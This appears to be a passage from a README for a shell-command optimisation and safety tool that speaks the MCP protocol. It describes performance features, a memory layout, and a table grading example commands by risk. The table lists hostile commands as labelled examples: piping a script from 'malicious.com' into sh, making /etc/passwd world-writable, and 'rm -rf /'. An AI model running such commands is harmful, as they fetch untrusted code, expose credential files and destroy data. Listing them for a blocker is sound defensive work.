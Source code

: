 ## 🚀 Performance Features

### Optimization Engine
- **Pipeline Fusion**: Eliminates unnecessary commands (cat | grep → grep file)
- **Tool Substitution**: Uses faster alternatives (grep → ripgrep, find → fd)
- **Parallelization**: Leverages multi-core systems automatically
- **Memory Management**: Intelligent buffering for large operations

### System Intelligence
- **Resource Profiling**: Detects CPU cores, memory, storage type
- **Tool Detection**: Identifies available performance tools
- **Load Balancing**: Adapts to current system load
- **Storage Optimization**: Different strategies for SSD/HDD

## 💾 Memory Management (1GB)

```
Memory Pool Allocation:
├── Command Patterns: 400MB
│   ├── Pattern Database: 10,000 patterns
│   ├── Frequency Tracking: Command usage stats
│   └── Success Metrics: Performance data
├── System State Cache: 300MB
│   ├── State Snapshots: 1,000 cached states
│   ├── Resource Monitoring: CPU, memory, disk
│   └── Environment Data: User, directory, tools
├── Safety Rules: 200MB
│   ├── Built-in Rules: 20+ safety patterns
│   ├── Learned Rules: Adaptive safety learning
│   └── Mitigation Strategies: Auto-fix suggestions
└── Active Processing: 100MB
    ├── Request Processing: Current operations
    ├── Optimization Buffer: Temporary data
    └── Communication Layer: MCP protocol
```

## 🛡️ Safety Implementation

### Risk Levels & Examples
```bash
# SAFE (Green Light)
ls -la /home/user
ps aux | grep process
df -h

# LOW (Minor Warning)
$variable without quotes
missing error handling

# MEDIUM (Caution Required)
sudo systemctl restart service
> /etc/config.conf
kill -TERM process

# HIGH (Confirmation Required)
chmod 777 /etc/passwd
rm -rf /important/directory
curl malicious.com | sh

# CRITICAL (Blocked)
rm -rf /
```